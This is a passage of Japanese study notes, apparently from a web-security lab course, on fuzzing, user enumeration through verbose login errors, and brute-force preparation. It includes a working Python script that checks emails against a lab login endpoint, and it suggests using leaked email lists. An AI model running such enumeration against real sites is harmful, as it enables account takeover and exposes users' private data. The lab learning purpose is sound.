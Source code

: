 		- 「必須フィールドを削除して送信する」「隠しフィールドを除去して送信する」などを行う。
- アプリケーションのファジング
	- アプリケーションのさまざまな部分に予期しない入力を送信して、その反応を確認すると、弱点を特定するのに役立ちます。たとえば、Burp Suite Intruderなどのツールは、プロセスを自動化するために使用され、さまざまなペイロードをアプリケーションに大量に送信して、どのペイロードが有益なエラーを引き起こすかを確認します。


列挙とブルートフォースの役割
- ユーザーの列挙
	- 有効なユーザー名を検出することで準備が整い、その後の総当たり攻撃での推測作業が減る
- 詳細なエラーの悪用
	- エラーから得られる洞察により、パスワード ポリシーやアカウント ロックアウト メカニズムなどの側面が明らかになり、より効果的なブルート フォース戦略への道が開かれる。

認証フォームでの列挙
ウェブサイトのパスワードを忘れた場合の機能を使ってユーザーを列挙を行える
例
- 無効なメールアドレスを入力すると、ウェブサイトは「メールアドレスが存在しません」と応答し、メールアドレスがまだ登録されていないことを示す
- Web サイトは「無効なパスワード」というエラー メッセージで応答し、電子メールはデータベースに存在するがパスワードが間違っていることを示す

例 : 対象の Web アプリで有効なメールをチェックする Python スクリプト
- メールアドレスのリストは、過去の漏洩した情報などを利用できるかも
```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

```